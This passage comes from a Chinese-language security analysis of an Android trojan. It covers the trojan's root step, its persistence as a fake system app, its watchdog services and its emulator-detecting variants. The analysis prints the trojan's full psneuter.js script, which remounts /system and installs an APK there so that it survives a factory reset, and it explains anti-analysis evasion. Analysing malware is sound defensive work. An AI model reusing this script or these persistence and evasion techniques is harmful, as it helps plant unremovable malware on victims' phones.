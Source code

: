 ![](http://drops.javaweb.org/uploads/images/de7b2dbff8098f58bb8bdc3f8cc58ade3e011138.jpg)

**图root 手机代码**

![](http://drops.javaweb.org/uploads/images/b77be0956d86a9fd88c695aecb589d5738e484c9.jpg)

**图动态拦截返回**

1.  `suc f0h5zguZ9aJXbCZExMaN2kDhh6V0Uw== /system/bin/sh psneuter.js`
2.  `suc al1s7jBFNtn9faBmC0Jb9A9Ns1GZSg== /system/bin/sh psneuter.js`
3.  `suc HygZRm2IHTKWpp7Hll/sS0uY66xdcw== /system/bin/sh psneuter.js`

成功root后执行psneuter.js，木马将成功伪装成系统应用隐藏在用户手机，即使恢复出厂设置也无法卸载。

psneuter.js文件内容

```
#!/system/bin/sh
mount -o rw,remount /system
/data/local/tmp/busybox mount -o rw,remount /system
cat /data/local/tmp/14425728404326709.apk > /system/app/14425728404326709.apk
chmod 0644 /system/app/14425728404326709.apk
pm install /system/app/14425728404326709.apk
mount -o ro,remount /system
/data/local/tmp/busybox mount -o ro,remount /system
echo "Now, script finish!”

```

![](http://drops.javaweb.org/uploads/images/065c58bba946f31c2fb7195181906d5e0a0ba365.jpg)

**图 root成功木马伪装系统软件“下载服务”**

### c 不死服务LocationService, BlueService

只要保证两大核心服务LocationService，BlueService 不死，就可以一直在后台执行恶意代码。木马在启动核型服务LocationService,BlueService的同时，会注册守护广播，保证核心服务一直启动。

![](http://drops.javaweb.org/uploads/images/d3d4fa500bf4b130c0fa99bc4b624307a0c1d6b9.jpg)

**图启动LocationService服务同时注册守护广播**

守护服务的广播，通过监听屏幕开关、手机电量变化、时间更改，启动被保护的服务。

![](http://drops.javaweb.org/uploads/images/85da5fa796dd9478b9b2c966e6b852571f4b8106.jpg)

**图守护广播监听的消息**

0x03 变种追踪
=========

* * *

该样本存在大量变种，且都是由LocationService,BlueService核心服务演变而来，从最开始的恶意应用推广到云端root sdk配置，升级到通过短信盗号，对抗杀软检测在native层检测运行环境等。

对变种木马“内涵壁纸”样本分析，首先在native层检查运行环境，若不是模拟器才启动恶意广播。这样有效的躲避了动态引擎检测，以及逆向分析人员分析。
